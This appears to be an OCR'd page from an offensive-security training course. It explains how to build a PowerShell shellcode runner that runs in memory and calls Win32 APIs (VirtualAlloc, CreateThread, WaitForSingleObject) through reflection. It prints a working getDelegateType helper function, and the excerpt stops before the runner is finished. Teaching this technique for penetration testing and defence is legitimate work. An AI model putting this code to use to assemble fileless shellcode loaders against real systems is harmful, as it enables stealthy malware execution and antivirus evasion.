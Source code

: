 Answer

### 6.2.3. Reflection Shellcode Runner in PowerShell

Now we can leverage this powerful PowerShell reflection technique to invoke Win32 APIs from code that executes entirely in memory. Let's translate our simple proof-of-concept into a full-fledged shellcode runner.

Since we are going to call three different Win32 APIs (_VirtualAlloc_, _CreateThread_, and _WaitForSingleObject_), we'll rewrite the portion of code that creates the delegate type into a function so we can call it multiple times.

We'll also slim down the code, eliminating unneeded variables to produce the smallest and most efficient code possible.

We've named this function _getDelegateType_, and it accepts two arguments including the function arguments of the Win32 API given as an array and its return type. Our previous code is built into three blocks. The first block creates the custom assembly and defines the module and type inside of it. The second block sets up the constructor, and the third sets up the invoke method. Finally, we invoke the constructor and the delegate type is returned to the caller.

Here's the complete code:

```
function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}
```

> Listing 26 - Method wrapper to create a delegate type

Together with _LookupFunc_, we'll resolve and call _VirtualAlloc_ using the same arguments as in the previous cases. We'll use _LookupFunc_ to search Kernel32.dll for the Win32 _VirtualAlloc_ API:
